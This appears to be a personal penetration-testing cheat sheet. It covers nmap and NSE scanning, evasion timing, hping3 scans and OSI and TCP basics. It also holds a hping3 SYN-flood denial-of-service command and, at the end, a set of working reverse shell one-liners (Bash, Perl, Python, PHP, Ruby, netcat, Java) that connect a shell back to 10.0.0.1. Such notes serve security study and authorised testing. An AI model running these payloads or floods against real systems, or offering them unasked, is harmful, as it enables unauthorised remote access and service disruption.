 Cliff notes

* pre-req: asset setup

1. listen before poking around
    wireshark / tcpdump to capture packet info
1. Gentle inquiries:
    arp-scan
1. netstat -tnlp for list of services
1. CanaryTokens: `https://stationx.net/canarytokens/`
    - thunderbird is great for image url w/o attaching in email if other
    clients dont allow this functionality.
1. Owasp cheat sheets:
    - [ ] appendix: https://www.owasp.org/index.php/OWASP_Cheat_Sheet_Series
    - [ ] Top 10: https://www.owasp.org/index.php/OWASP_Top_Ten_Cheat_Sheet

nmap & ndiff

Plan to save the result of the nmap scan w/ `-oA` for all formats
1. Do Ping Sweep - No Port Scan after host discovery w/ (-sn | -sP)
1. Service & Version Detection (-sV):
     to probe the service / version of the port
    note:   (-Pn) is to avoid the discovery
            (-n) is to avoid DNS resolution
    `nmap -n -Pn -sS <ip> --top-ports 10` - <1 sec
    `nmap -n -Pn -sS <ip> --top-ports 10 -sV` - >10 seconds
1. OS Detection:
    `nmap -n -sS <ip> --top-ports 100 -O --osscan-guess`
    `nmap -n -sS -Pn <ip> --top-ports 3 -O`
    add the`--reason` parameter to find more info about the error
    increase the verbosity output w/ `-vvv`
 to get the ip addresses: `<nmap cmd> | grep -i "nmap scan" | cut -d" " -f5`
1. Null(-sN), FIN(-sF), XMAS(-sX) scans
1.

Best NSE Scripts:
    - dns-brute.nse
    - hostmap-bfk.nse
    - traceroute-geolocation.nse
    - http-enum.nse
    - smb-os-discovery.nse
    - smb-brute.nse
        - smb-enum-groups.nse
        - smb-enum-users.nse
        - smb-enum-processes.nse
    - http-waf-detect.nse
    - http-waf-fingerprint.nse
    - http-errors.nse
    - http-exif-spider

   Examples:
    `nmap -p80,443 --script http-waf-detect --script-args="http-waf-detect.aggro,http-waf-detect.detectBodyChanges" targetWebsite.com`
    `nmap -p80,443 --script http-waf-fingerprint targetWebsite.com`
    `nmap -p80,443 --script http-waf-fingerprint --script-args http-waf-fingerprint.intensive=1 targetWebsite`
    `nmap -p80,443 --script dns-brute --script-args dns-brute.threads=25,dns-brute.hostlist=/root/Desktop/custom-subdomain-wordlist.txt targetWebsite.com`
    `nmap -p80,443 --script http-exif-spider --script-args="http.max-cache-size=99999999" targetWebsite.com`



nse scripting categories:
<!--todo: verify nse categories and suffixes-->
        - default (-sC)
        - auth
        - broadcast
        - brute
            `*-brute.nse`
        - default
        - discovery
            `*-safe.nse`
            `*-info.nse`
            `*-version.nse`
        - dos
        - exploit
            `*-vuln.nse`
            `*-intrusive.nse`
            `*-malware.nse`
        - external
        - fuzzer

notable references:
ipidseq.nse


nmap timing:
    -T0 (paranoid)
    -T1 (sneaky)
    -T2 (sneaky)
    -T3 (normal)
    -T4 (aggressive)
    -T5 (insane)
    --max-retries 2
    --host-timeout

recon:




scanning:
 [ ] hping3 -
     `hping3 --scan <port scan or comma-separated list> -S <ip>`
     `hping3 --scan 0-500 -S 10.10.10.1`

DoS:
     `hping3 --flood -S -V --rand-source www.fqdn.com`

  [ ] nmap -
        ping scan
        port scan
        service version / deteciton
        os detection
        nse execution
        timing tricks
        ips/ids evasion



OSI:
    - physical - ()
    - data link - (ethernet, wireless, 802.4, 802.11, token ring)
    - network - IP
    - transport - (TCP, UDP)
    - session - (SQL, RPC)
    - presentation - (ascii, mp3, jpg)
    - application (http, smtp, telnet, ftp, dns, snmp)


TCP Flags
- Syn
- Ack
- RST
- FIN
- PSH
- URG
- SYN

   
Technical reference:
https://hackertarget.com/11-offensive-security-tools/
Powershell: https://github.com/janikvonrotz/awesome-powershell#testing
wordlists: https://kennyvn.com/wordlists-password-dictionaries-for-kali-linux/
metasploit walkthrough: https://zero-day.io/metasploitwalkthrough/


A collection of Linux reverse shell one-liners from pentestmonkey.net. This website also contains a bunch of other useful stuff!

Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Netcat with -e
```
nc -e /bin/sh 10.0.0.1 1234
```

Netcat without -e 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```